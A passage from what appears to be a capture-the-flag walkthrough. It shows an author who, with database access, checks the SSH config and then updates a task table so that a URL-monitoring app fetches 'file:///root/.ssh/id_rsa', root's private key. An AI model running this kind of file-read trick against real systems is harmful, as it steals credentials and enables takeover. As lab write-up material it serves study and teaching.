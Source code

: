 With this, I assume that all tasks are getting put under "tasks". 
```shell
mysql> select * from tasks;
Empty set (0.00 sec)
```

There are no tasks at the moment. 

Since we are already on the system, what file should we grab? Let's look and see what the ssh configuration allows.

```shell
cat /etc/ssh/sshd_config | grep -v '^[#]' | grep .
ChallengeResponseAuthentication no
UsePAM yes
PermitRootLogin yes
X11Forwarding yes
PrintMotd no
AcceptEnv LANG LC_*
Subsystem sftp  /usr/lib/openssh/sftp-server
PasswordAuthentication yes
```

Awesome root is allowed to log in using ssh. Since we do not have the password for root, we can hope that they have a ssh key. The most common of which is id_rsa. There are other common ones as well such as id_dsa, id_ecdsa, and id_ed25519. 

With that being said let's change the task to see if id_rsa exists for the root user.

```shell
update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
```
*Be careful with this command because it will update all of the tasks with the new monitoredUrl. Changing all of them is not a good idea in a real environment. However, we are running against a clock that deletes these tasks every minute so we are going to use the quick and dirty route for this.*

We will use the file filter to get the file from the local machine instead of using the expected http filter to get a webpage. 

It worked:

![](assets/img/rsa_key.png)
